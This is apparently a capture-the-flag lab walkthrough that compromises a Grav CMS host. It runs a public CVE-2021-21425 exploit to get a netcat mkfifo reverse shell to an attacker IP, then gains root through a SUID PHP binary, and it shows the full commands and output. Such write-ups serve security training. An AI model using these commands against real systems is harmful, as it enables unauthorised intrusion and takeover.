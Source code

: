 ____

# Exploitation Guide for Astro

## Summary:

In this guide we will exploit an Unauthenticated Arbitrary YAML Write/Update in `Grav CMS` which leads to RCE to gain our initial foothold. In order to escalate privileges we will discover a vulnerable `PHP` SUID binary.

## Enumeration:

We begin the enumeration process with an `nmap` scan.

```bash
┌──(root㉿kali)-[/home/kali/ugc/gravity]
└─# nmap -p22,80 -sC -sV -oA nmap/gravity 192.168.145.160
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-17 09:04 EDT
Nmap scan report for 192.168.145.160
Host is up (0.00077s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:a9:43:8d:98:03:db:57:8c:be:9a:93:36:f9:34:13 (RSA)
|   256 70:2c:18:90:18:c0:a8:c5:7c:9b:a7:da:dc:7e:e9:32 (ECDSA)
|_  256 79:3d:a2:28:b8:dc:7b:0d:c4:53:ba:52:81:cc:ca:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume 
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)

```

From the output of our scan we see `grav-admin/` on port `80`.

Navigating to port `80` we see a default installation of `Grav CMS` and view the admin endpoint.

Navigating to `grav-admin/admin` we see the following login page.

![Untitled](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_CTF1_image_2_X1S8FT4L.png)

Untitled

When testing default credentials we see that we have gained access to the admin login page.

We proceed by searching for unauthenticated Grav CMS exploits and as seen below, we see a few CVEs.

One of the google results leads us to the following exploit:

Reference: [https://github.com/CsEnox/CVE-2021-21425/blob/main/exploit.py](https://github.com/CsEnox/CVE-2021-21425/blob/main/exploit.py)

We download the exploit to our attack machine using `wget`.

```bash
┌──(root㉿kali)-[/home/kali/ugc/gravity]
└─# wget "https://raw.githubusercontent.com/CsEnox/CVE-2021-21425/main/exploit.py"
--2022-08-17 09:25:28--  https://raw.githubusercontent.com/CsEnox/CVE-2021-21425/main/exploit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1892 (1.8K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                        100%[============================================================>]   1.85K  --.-KB/s    in 0s      

2022-08-17 09:25:29 (13.7 MB/s) - ‘exploit.py’ saved [1892/1892]
```

Now we use the exploit to ping our attack machine.

```bash
┌──(root㉿kali)-[/home/kali/ugc/gravity]
└─# python3 exploit.py -c 'ping -c1 192.168.145.128' -t http://192.168.145.160/grav-admin
[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
```

After approximately 1 minute, we recieve the ping packets.

```bash
┌──(root㉿kali)-[/home/kali]
└─# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
09:41:01.440075 IP 192.168.145.160 > 192.168.145.128: ICMP echo request, id 2, seq 1, length 64
09:41:01.440111 IP 192.168.145.128 > 192.168.145.160: ICMP echo reply, id 2, seq 1, length 64
```

Now we will proceed by attempting get a reverse shell.

We setup a listener on our attack machine.

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
```

Now we update our command as seen below.

```bash
┌──(root㉿kali)-[/home/kali/ugc/gravity]
└─# python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.145.128 4444 >/tmp/f' -t http://192.168.145.160/grav-admin
[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
```

We receive a response in our listener as `www-data`.

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.145.128] from (UNKNOWN) [192.168.145.160] 40906
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# Privilege Escalation

We search for any interesting SUID binaries and see `/usr/bin/php7.4` in the output.

```bash
www-data@gravity:~/html/grav-admin$ find / -perm -u=s -type f 2>/dev/null | grep -v 'snap'
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chfn
/usr/bin/at
/usr/bin/php7.4
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
```

Using `https://gtfobins.github.io/`, we see an entry for PHP and follow the listed steps in order to obtain root access.

```bash
www-data@gravity:~/html/grav-admin$ php -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:1d:44:e8 brd ff:ff:ff:ff:ff:ff
    inet 192.168.145.160/24 brd 192.168.145.255 scope global dynamic ens33
       valid_lft 1304sec preferred_lft 1304sec
    inet6 fe80::20c:29ff:fe1d:44e8/64 scope link 
       valid_lft forever preferred_lft forever
# hostname
gravity
#
```




